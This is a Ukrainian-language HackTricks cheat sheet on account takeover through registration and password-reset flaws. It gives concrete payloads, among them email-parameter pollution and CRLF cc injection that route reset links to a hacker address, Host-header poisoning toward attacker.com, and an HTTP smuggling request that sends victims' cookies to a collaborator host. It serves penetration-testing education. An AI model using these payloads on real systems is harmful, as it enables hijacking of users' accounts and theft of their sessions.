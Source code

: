 # Вразливості реєстрації та захоплення

{{#include ../banners/hacktricks-training.md}}

## Захоплення реєстрації

### Дублювання реєстрації

- Спробуйте згенерувати, використовуючи існуюче ім'я користувача
- Перевірте, варіюючи електронну пошту:
- верхній регістр
- \+1@
- додайте деяку крапку в електронній пошті
- спеціальні символи в імені електронної пошти (%00, %09, %20)
- Додайте чорні символи після електронної пошти: `test@test.com a`
- victim@gmail.com@attacker.com
- victim@attacker.com@gmail.com

### Перерахування імен користувачів

Перевірте, чи можете ви з'ясувати, коли ім'я користувача вже було зареєстровано в додатку.

### Політика паролів

Створюючи користувача, перевірте політику паролів (перевірте, чи можете ви використовувати слабкі паролі).\
У цьому випадку ви можете спробувати брутфорсити облікові дані.

### SQL-ін'єкція

[**Перевірте цю сторінку**](sql-injection/#insert-statement), щоб дізнатися, як спробувати захоплення облікових записів або витягти інформацію через **SQL-ін'єкції** у формах реєстрації.

### Захоплення Oauth

{{#ref}}
oauth-to-account-takeover.md
{{#endref}}

### Вразливості SAML

{{#ref}}
saml-attacks/
{{#endref}}

### Зміна електронної пошти

Після реєстрації спробуйте змінити електронну пошту та перевірте, чи ця зміна правильно перевіряється або чи можна змінити її на довільні електронні адреси.

### Більше перевірок

- Перевірте, чи можете ви використовувати **одноразові електронні адреси**
- **Довгий** **пароль** (>200) призводить до **DoS**
- **Перевірте обмеження швидкості на створення облікових записів**
- Використовуйте username@**burp_collab**.net і аналізуйте **callback**

## **Захоплення скидання пароля**

### Витік токена скидання пароля через реферер <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Запросіть скидання пароля на вашу електронну адресу
2. Натисніть на посилання для скидання пароля
3. Не змінюйте пароль
4. Перейдіть на будь-які сторонні вебсайти (наприклад: Facebook, Twitter)
5. Перехопіть запит у проксі Burp Suite
6. Перевірте, чи заголовок referer витікає токен скидання пароля.

### Отруєння скидання пароля <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Перехопіть запит на скидання пароля в Burp Suite
2. Додайте або відредагуйте наступні заголовки в Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Перешліть запит з модифікованим заголовком\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Шукайте URL скидання пароля на основі _заголовка host_, наприклад: `https://attacker.com/reset-password.php?token=TOKEN`

### Скидання пароля через параметр електронної пошти <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR на API Параметрах <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Атакуючий повинен увійти в свій обліковий запис і перейти до функції **Змінити пароль**.
2. Запустіть Burp Suite і перехопіть запит.
3. Відправте його на вкладку повторювача та відредагуйте параметри: User ID/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Слабкий Токен Скидання Пароля <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Токен скидання пароля повинен генеруватися випадковим чином і бути унікальним щоразу.\
Спробуйте визначити, чи токен має термін дії або завжди однаковий, в деяких випадках алгоритм генерації є слабким і може бути вгаданий. Наступні змінні можуть використовуватися алгоритмом.

- Timestamp
- UserID
- Email користувача
- Ім'я та прізвище
- Дата народження
- Криптографія
- Тільки числа
- Невелика послідовність токенів (символи між \[A-Z,a-z,0-9])
- Повторне використання токена
- Дата закінчення терміну дії токена

### Витік Токена Скидання Пароля <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Викличте запит на скидання пароля, використовуючи API/UI для конкретної електронної пошти, наприклад: test@mail.com
2. Перевірте відповідь сервера та перевірте наявність `resetToken`
3. Потім використайте токен в URL, наприклад `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Скидання Пароля Через Колізію Імені Користувача <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Зареєструйтеся в системі з іменем користувача, ідентичним імені користувача жертви, але з пробілами перед і/або після імені користувача. наприклад: `"admin "`
2. Запросіть скидання пароля з вашим шкідливим іменем користувача.
3. Використайте токен, надісланий на вашу електронну пошту, і скиньте пароль жертви.
4. Увійдіть до облікового запису жертви з новим паролем.

Платформа CTFd була вразливою до цієї атаки.\
Дивіться: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Захоплення Облікового Запису Через Міжсайтовий Скриптинг <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Знайдіть XSS всередині програми або піддомену, якщо куки обмежені до батьківського домену: `*.domain.com`
2. Витягніть поточний **cookie сесії**
3. Аутентифікуйтеся як користувач, використовуючи куки

### Захоплення Облікового Запису Через HTTP Запит Смокінг <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Використовуйте **smuggler** для виявлення типу HTTP Запит Смокінг (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Сформуйте запит, який перезапише `POST / HTTP/1.1` з наступними даними:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` з метою перенаправлення жертв на burpcollab і викрадення їхніх куків\
3\. Остаточний запит може виглядати наступним чином
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone повідомляє про експлуатацію цього багу\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Захоплення облікового запису через CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Створіть payload для CSRF, наприклад: “HTML форма з автоматичним відправленням для зміни пароля”
2. Відправте payload

### Захоплення облікового запису через JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token може використовуватися для аутентифікації користувача.

- Змініть JWT на інший User ID / Email
- Перевірте на слабкий підпис JWT

{{#ref}}
hacking-jwt-json-web-tokens.md
{{#endref}}

## Посилання

- [https://salmonsec.com/cheatsheet/account_takeover](https://salmonsec.com/cheatsheet/account_takeover)

{{#include ../banners/hacktricks-training.md}}
